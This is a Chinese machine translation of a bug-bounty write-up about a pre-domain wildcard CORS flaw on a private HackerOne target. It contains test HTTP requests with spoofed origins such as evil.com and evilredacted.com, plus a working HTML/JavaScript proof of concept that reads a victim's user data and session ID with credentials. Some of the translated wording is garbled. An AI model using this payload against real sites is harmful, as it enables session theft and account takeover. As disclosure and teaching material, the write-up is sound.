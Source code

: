 # 域名前通配符 CORS 利用

> 原文：<https://infosecwriteups.com/pre-domain-wildcard-cors-exploitation-2d6ac1d4bd30?source=collection_archive---------0----------------------->

![](img/1bb5174845b16c8b9b5654f23116a904.png)

***严重性:高***

***复杂度:中等***

***缺点:信任域名前通配符作为原点***

*   *一些网站在尝试验证来源是否可信时会犯典型的 URL 解析错误。*

*例如，一个我称之为 advisor.com 的网站信任所有以 advisor.com 为终点的起点，包括 definitelynotadvisor.com*

*   *以下是尝试寻找域名前通配符弱点的测试案例:*

***称之为 REDACTED.COM，因为它是 Hackerone 上的私人程序。***

```
* TEST 1 :GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://redacted.com * Response :Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Accept, Accept-Encoding, Accept-Language, Authorization, X-Context, X-Session-ID
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Origin: https://redacted.com
Access-Control-Max-Age: 3600
```

```
Test 2 :GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://evil.com * Response :HTTP/1.1 302 Found
Content-Type: text/html;charset=utf-8
Date: Wed, 23 Aug 2017 20:00:08 GMT
Location: https://connect.redacted.com/auth
```

```
Test 3:GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://redacted.com.evil.com* Response :HTTP/1.1 302 Found
Content-Type: text/html;charset=utf-8
Date: Wed, 23 Aug 2017 20:00:08 GMT
Location: https://connect.redacted.com/auth
```

```
Test 4:GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://connect.redacted.com.evil.com* Response :HTTP/1.1 302 Found
Content-Type: text/html;charset=utf-8
Date: Wed, 23 Aug 2017 20:00:08 GMT
Location: https://connect.redacted.com/auth
```

```
Test 5:GET /account HTTP/1.1
Host: connect.redacted.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: redacted.com
Accept-Language: en-US,en;q=0.8
Cookie: 
Origin: https://evilredacted.com* Response :Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Accept, Accept-Encoding, Accept-Language, Authorization, X-Context, X-Session-ID
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Origin: https://evilredacted.com
Access-Control-Max-Age: 3600
```

*   *从* ***测试 5*** *很明显，应用程序只是通过检查它是否以****redacted.com***结尾来验证原点
*   *(ACAH)随着不同的方法也被启用，这意味着攻击者可以代表受害者提出不同的请求。*
*   *要成功利用这个漏洞，我们需要***** redated . com 域***
*   *所以，我去买了它****kiraakredacted.com****来剥削它*

*   ***剥削:***

*现在是时候找到好的剥削终点来论证&增加影响了。connect.redacted.com 的* *没有什么可利用的，就像静态网站要求安装他们的浏览器扩展一样。*

但是有一件事让我一直想找到一些利用途径，那就是要安装那个扩展 ***你需要登录。我怀疑他们在某个地方储存了一些信息。于是我开始了 bruteforcing，阅读 API 端点的文档。并且遇到了*[***【https://connect.redacted.com/v1/user】***](https://connect.redacted.com/v1/user)**其中包含了 json 响应中的用户详细信息以及 SESSIONID。****

```
*<html>
<body>
<button type='button' onclick='cors()'>xxx</button>
<p id='demo'></p>
<p id='session'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = this.responseText;
parsed = JSON.stringify(this.responseText);
var arr = [];
 for(var x in parsed){
 arr.push(parsed[x]);
 }
 console.log(arr)
 document.getElementById(‘session’).innerHTML = arr[13];
}
};
xhttp.open("GET", "https://connect.redacted.com/v1/user", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>*
```

*![](img/01c3228b9e67fbb16123f93a8532de4a.png)*

*反应*

*   **能够远程接管用户账户。**

*![](img/12b6bdfda7e56f84aaae823a5656faa7.png)*

****参考:****

*[*http://blog . ports wigger . net/2016/10/exploining-CORS-misconfiguration s-for . html*](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)*